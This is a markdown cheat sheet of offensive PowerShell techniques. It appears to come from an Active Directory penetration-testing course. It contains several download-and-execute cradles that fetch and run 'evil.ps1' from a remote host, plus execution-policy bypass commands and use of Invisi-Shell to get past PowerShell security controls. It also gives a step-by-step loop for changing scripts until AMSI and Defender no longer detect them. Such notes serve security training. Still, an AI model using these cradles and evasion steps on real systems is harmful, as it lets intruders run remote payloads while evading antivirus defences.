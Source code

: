 # PowerShell

## xfreerdp

```bash
xfreerdp /d:domain /u:studentx /p:password /v:IP /bpp:8 -themes -wallpaper /dynamic-resolution
```

## <mark style="color:red;">PowerShell Scripts and Modules</mark>

Load a PowerShell script using dot sourcing

```powershell
. C:\AD\Tools\PowerView.ps1
```

A module (or a script) can be imported with:

```powershell
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1
```

All the commands in a module can be listed with:

```powershell
Get-Command -Module <modulename>
```

## <mark style="color:red;">PowerShell Script Execution</mark>

Download execute cradle

<pre class="language-powershell"><code class="lang-powershell">iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

<strong>#PSv3 onwards
</strong><strong>iex (iwr 'http://192.168.230.1/evil.ps1')
</strong>
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText

$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
</code></pre>

## <mark style="color:red;">Execution Policy</mark>

It is NOT a security measure, it is present to prevent user from accidently executing scripts.

Several ways to bypass:

```powershell
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

## <mark style="color:red;">Bypassing PowerShell Security</mark>

We will use Invisi-Shell for bypassing the security controls in PowerShell.

{% embed url="https://github.com/OmerYa/Invisi-Shell" %}
Invisi-Shell
{% endembed %}

Using Invisi-Shell:

* With admin privileges:

```powershell
RunWithPathAsAdmin.bat
```

* With non-admin privileges:

```powershell
RunWithRegistryNonAdmin.bat
```

Type exit from the new PowerShell session to complete the clean-up.

## Bypassing AV Signatures for PowerShell

Steps to avoid signature based detection are pretty simple:

1. Scan using AMSITrigger ([https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)) and DefenderCheck (https://github.com/t3hbb/DefenderCheck):
   1. Simply provide path to the script file to scan it: `AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1 DefenderCheck.exe PowerUp.ps1`
   2. For full obfuscation of PowerShell scripts, see Invoke-Obfuscation (https://github.com/danielbohannon/InvokeObfuscation). That is used for obfuscating the AMSI bypass in the course!
2. Modify the detected code snippet
3. Rescan using AMSITrigger
4. Repeat the steps 2 & 3 till we get a result as “AMSI\_RESULT\_NOT\_DETECTED” or “Blank”
